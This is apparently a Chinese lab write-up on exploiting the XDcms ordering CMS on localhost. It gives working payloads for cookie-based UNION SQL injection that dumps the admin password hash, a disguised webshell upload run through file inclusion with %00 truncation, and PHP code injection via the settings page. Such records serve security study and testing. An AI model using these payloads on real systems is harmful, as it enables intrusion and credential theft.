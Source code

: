 ```yaml
---
title:  XDcms订餐系统
---
```


# 一、后台SQL注入点

> #### 注册登录后修改信息的地方存在SQL注入
>
> #### 存在大小写绕过

### 1、判断可以获取的参数个数

```
Cookie 输入：
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15 
```



![image-20220103142324621](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142324621.png)

### 2、查看当前数据库

> 查看到当前数据库为xdcms

```
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,database() ,15 
```

![image-20220103142524681](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142524681.png)

### 3、查看表

> c_admin

```
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,(seLect table_name From information_schema.tables Where table_schema='xdcms' limit 0,1),15
```

### 4、查看密码

```
-1 union  seLect 1,2,3,4,5,6,7,8,9,10,11,12,13,password,15 From c_admin

破解MD5的密码为teat456
```

![image-20220103142355363](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142355363.png)

![image-20220103125853060](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/008i3skNly1gy0eb0mkqnj30hd03kgln.jpg)

# 二、文件上传文件包含漏洞

### 1、上传一句话木马照片

```
图片地址
http://127.0.0.1/uploadfile/image/20220103/20220103133831_10032.jpg
```

![image-20220103142408824](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142408824.png)

### 2、利用文件包含构造请求（%00截断）

```
http://127.0.0.1/xdcmsv10/api/index.php?c=../../xdcmsv10/uploadfile/image/20220103/20220103133831_10032.jpg%00
```

![image-20220103142417914](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142417914.png)



# 三、后台getshell 利用

> 利用方法/index.php?m=xdcms&c=setting

```
phpinfo');?><?php phpinfo();?>http://127.0.0.1/ 
```

![image-20220103142424373](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142424373.png)

![image-20220103142430746](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/image-20220103142430746.png)



































